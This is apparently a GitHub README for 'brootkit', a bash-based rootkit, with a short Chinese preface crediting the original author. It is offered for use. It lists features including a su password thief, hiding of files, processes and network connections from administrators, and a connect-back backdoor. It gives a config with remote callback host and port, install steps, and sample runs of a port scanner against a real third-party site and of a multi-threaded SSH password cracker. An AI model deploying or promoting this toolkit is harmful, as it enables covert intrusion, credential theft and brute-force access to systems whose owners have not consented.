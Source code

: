 说明
--------------
使用了cloudsec的brootkit工具，感谢该作者的分享，有时间会在此基础上增加一些功能与实际工具
可直接参考cloudsec的github主页 https://github.com/cloudsec/brootkit

######BROOTKIT
    Lightweight rootkit implemented using bash shell scripts v0.10
    
    by wzt 2015   wzt.wzt@gmail.com
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so too can it be implemented for a rootkit.

######FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directories.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. multi thread port scanner.
    8. http download.
    9. multi thread ssh passwd crack.

######TARGET OS
    1. centos
    2. rhel
    3. ubuntu
    4. debian
    5. fedora
    6. freebsd

######TODO
    1. sudo thief support.

######INSTALL

    Linux distribution systems.

    1. edit br.conf first

      brootkit config file.

      #these ports will be hidden: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #these files will be hidden: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #these processes will be hidden: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

    3. multi thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, default is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org

      [root@localhost brootkit]# ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 5 -n 20 www.wooyun.org
      host: www.wooyun.org | total ports: 10 | thread num: 10 timeout: 5 | logfile: brscan.log

      thread<0    >           --              pid <57053>     -->     21
      thread<1    >           --              pid <57054>     -->     22
      thread<2    >           --              pid <57055>     -->     23
      thread<3    >           --              pid <57056>     -->     24
      thread<4    >           --              pid <57057>     -->     80
      thread<5    >           --              pid <57058>     -->     135
      thread<6    >           --              pid <57059>     -->     136
      thread<7    >           --              pid <57060>     -->     137
      thread<8    >           --              pid <57061>     -->     138
      thread<9    >           --              pid <57070>     -->     8080

      [>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>]     10/10     6 s

      www.wooyun.org: 80

    4. multi thread ssh passwd crack.
      [root@localhost brootkit]# ./sshcrack.sh
      ./sshcrack.sh <-h host> <-u user> <-p passwd> [-t timeout] [-n threadnum] [-o logfile]

      option:
      -h              host name or host list file.
      -u              user name or user list file.
      -p              single passwd or passwd list file.
      -t              connect timeout, defalut is 5s.
      -n              thread num, default is 1.
      -o              log file.
      -v              display help information.

      exp:

      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst
      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h 192.168.215.148 -u user.lst -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h host.lst -u user.lst -p passwd.lst -n 10 -t 2

      [root@localhost brootkit]# ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 6
      host: 1 | users: 1 | passwd: 28 thread: 6 | timeout: 10 | logfile: sshcrack.log

      Thread[ 1]      wzt@192.168.215.148             ==>     [e               ]      [failed]         3
      Thread[ 2]      wzt@192.168.215.148             ==>     [a               ]      [failed]         3
      Thread[ 3]      wzt@192.168.215.148             ==>     [d               ]      [failed]         3
      Thread[ 4]      wzt@192.168.215.148             ==>     [giveshell       ]      [success]        6
      Thread[ 5]      wzt@192.168.215.148             ==>     [123456          ]      [failed]         3
      Thread[ 6]      wzt@192.168.215.148             ==>     [fd              ]      [failed]         3

      waiting all threads to finsh...

    Freebsd system
    on the modern freebsd system root use csh by default, the other users
    use sh default. this version of brootkit can only support sh based features.

    1. edit brsh.conf first

    brshootkit config file, only one argument support.

      #this port will be hidden.
      HIDE_PORT               8080
      #these files will be hidden.
      HIDE_FILE               brsh
      #these process will be hidden.
      HIDE_PROC               sh
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

######SOURCE
    https://github.com/cloudsec/brootkit
